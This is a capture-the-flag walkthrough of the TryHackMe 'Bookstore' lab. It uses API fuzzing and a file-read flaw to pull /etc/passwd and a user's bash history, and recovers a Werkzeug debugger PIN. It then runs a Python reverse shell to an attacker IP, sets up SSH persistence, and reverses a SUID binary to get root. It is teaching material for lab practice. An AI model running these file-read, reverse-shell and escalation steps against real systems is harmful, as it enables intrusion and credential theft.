







# Bookstore Tryhackme Walkthrough - Writeup

https://tryhackme.com/room/bookstoreoc

A Beginner level box with basic web enumeration and REST API Fuzzing.

>Bookstore is a boot2root CTF machine that teaches a beginner penetration tester basic web enumeration and REST API Fuzzing. Several hints can be found when enumerating the services, the idea is to understand how a vulnerable API can be exploited.

### Tools Utilized
- nmap
- gobuster
- ffuf
- ghidra
- pwncat
___

## Port Scanning
Enumerating the target with an nmap scan to see what ports are open. I begin with the following scan for all open ports: 

```shell-script 
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore]
└─$ sudo nmap -p- -v --min-rate=8000 10.10.111.74                                                                                                                                            130 ⨯
[sudo] password for viorage: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 07:59 EDT
Initiating Ping Scan at 07:59
Scanning 10.10.111.74 [4 ports]
Completed Ping Scan at 07:59, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:59
Completed Parallel DNS resolution of 1 host. at 07:59, 0.02s elapsed
Initiating SYN Stealth Scan at 07:59
Scanning 10.10.111.74 [65535 ports]
Discovered open port 22/tcp on 10.10.111.74
Discovered open port 80/tcp on 10.10.111.74
Discovered open port 5000/tcp on 10.10.111.74
Completed SYN Stealth Scan at 07:59, 9.12s elapsed (65535 total ports)
Nmap scan report for 10.10.111.74
Host is up (0.23s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5000/tcp open  upnp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
           Raw packets sent: 69608 (3.063MB) | Rcvd: 69478 (2.779MB)

```

Now that I have scanned all 65535 TCP ports I can kick off a default script scan on 22, 80, and 5000:

```zsh
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore]
└─$ nmap -sVC -p 22,80,5000 -oA script 10.10.111.74           
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 08:04 EDT
Nmap scan report for 10.10.111.74
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.17 seconds
```

___
## OS Discovery
Searching the OpenSSH version, shows us this machine is most likely Bionic:



___
## Website Enumeration
I will now begin enumerate the website on port 80 but first let's look at the homepage, also noting that it's an html file.


___

#### Burp Suite Proxy
When I begin enumerating a website, I proxy my traffic through Burp Suite.



While browsing the source code on the Login page, theres an interesting comment that may leak a user name of  ```sid``` from the comment ```the debugger pin is inside sid's bash history file```. 

This seems to be a hint that I should look into Sid's bash_history file, if I can find a way.

```html
</script>
<!--===============================================================================================-->
	<script src="more_css/vendor/daterangepicker/moment.min.js"></script>
	<script src="more_css/vendor/daterangepicker/daterangepicker.js"></script>
<!--===============================================================================================-->
	<script src="more_css/vendor/countdowntime/countdowntime.js"></script>
<!--===============================================================================================-->
	<script src="more_css/js/main.js"></script>
				<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
</body>
</html>
```

___
#### Port 80 Gobuster

```Gobuster``` running on port 80 found nothing of significance. 
___

#### Port 5000 Gobuster

```Gobuster``` running on port 5000 did find 2 possible resources api and console. At this time I will also add this target to Burp Suite.


___
#### Homepage

The homepage shows **Foxy REST API v2.0** ```This is a REST API for science fiction novels```


___

#### API Fuzzing
Browsing to the api page allows us to view the documentation for the API. 


Fuzzing the api with ```curl```

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v2/resources/books?id=1                                                                                                                                7 ⨯
[
  {
    "author": "Ann Leckie ", 
    "first_sentence": "The body lay naked and facedown, a deathly gray, spatters of blood staining the snow around it.", 
    "id": "1", 
    "published": 2014, 
    "title": "Ancillary Justice"
  }
]

```

I also attempted to change  ```v2``` to ```v1``` , maybe v1 had a vulnerability associated with it.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?id=1
[
  {
    "author": "Ann Leckie ", 
    "first_sentence": "The body lay naked and facedown, a deathly gray, spatters of blood staining the snow around it.", 
    "id": "1", 
    "published": 2014, 
    "title": "Ancillary Justice"
  }
]
```
___

## Fuzzing API (v1) with FFuF
With the previous hint, fuzzing the api for a possible parameter to read files seems like a logical choice.

```bash
┌──(viorage㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u  "http://10.10.111.74:5000/api/v1/resources/books?FUZZ=/etc/passwd"                                                                         1 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.111.74:5000/api/v1/resources/books?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 226ms]
id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 226ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 229ms]
show                    [Status: 200, Size: 1555, Words: 9, Lines: 31, Duration: 224ms]
```

It looks like the show parameter might be vulnerable to injection.

---

## Testing for Injection
The show parameter is vulnerable to injected, allowing arbitrary file reads

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/etc/passwd                                               
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

Pulling ```Sid's``` bash history to reveal the PIN ```123-321-135``` allowing access to the console.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/home/sid/.bash_history
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

___

## User Flag

Pulling the user flag with the arbitrary read vulnerability.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/home/sid/user.txt     
4ea65eb80---snip---ddf7b964ab
```

___

## Console Reverse shell

Logging in to discover /console is an interactive python shell



https://www.revshells.com/ makes it easy to grab a python reverse shell

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.18.86",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

Starting an unbreakable pwncat listener

```bash
pwncat -l 443 --self-inject /bin/bash:10.13.18.86:443
```

Reverse shell is granted


___

## Persistence 
Making an ssh key for Sid and setting up persistence

```bash
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore]
└─$ ssh-keygen -f sid                                                                                                                                                                           1 ⨯
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in sid
Your public key has been saved in sid.pub
The key fingerprint is:
SHA256:p4PrpS8pw3BLwA32Ns2F/BGqu2bFpjYK7vSbssBsIGw viorage@kali
The key's randomart image is:
+---[RSA 3072]----+
|     . ...       |
|  o   o.o        |
| o + o.o .       |
|. o =.o .        |
|oE o.o  S .      |
|* . o.+. o       |
|o= =.=..+        |
|=o. %.o+ .       |
|.++Oo=+o.        |
+----[SHA256]-----+
```




___

## Privilege Escalation
There is an interesting file with the SUID bit set named ```try-harder```. I will need to analyze this file from my local machine.

Using scp to copy the file locally
```bash
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore/.ssh]
└─$ scp -i sid sid@10.10.111.74:/home/sid/try-harder ./
Enter passphrase for key 'sid': 
try-harder                                                                                                                                                        100% 8488    18.6KB/s   00:00    
                                                                                                                                                                                                    
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore/.ssh]
└─$ ls      
sid  sid.pub  try-harder
```

Using Ghidra to analyze the file. The program prompts for a number and XORs it with ```0x5db3``` and ```0x1116``` and the result must match ```0x5dc21f4```. If the results are correct and root shell will be given via ```/bin/bash -p```.



Using python3 we can reverse the operation to get the Magic Number of 1573743953.

```bash
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore/.ssh]
└─$ python3                                            
Python 3.9.12 (main, Mar 24 2022, 13:02:21) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x5dcd21f4^0x5db3^0x1116)
1573743953
>>> 
```

___

## Root
Gaining root shell with the try-harder binary

```bash
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
1573743953
root@bookstore:~# id
uid=0(root) gid=1000(sid) groups=1000(sid)
root@bookstore:~# cat /root/root.txt
e29b05fba5---SNIP---0893158e3
root@bookstore:~# 
```

___
## Extra
Killing my ssh session and reverse shell, to opening my pwncat unbreakable shell


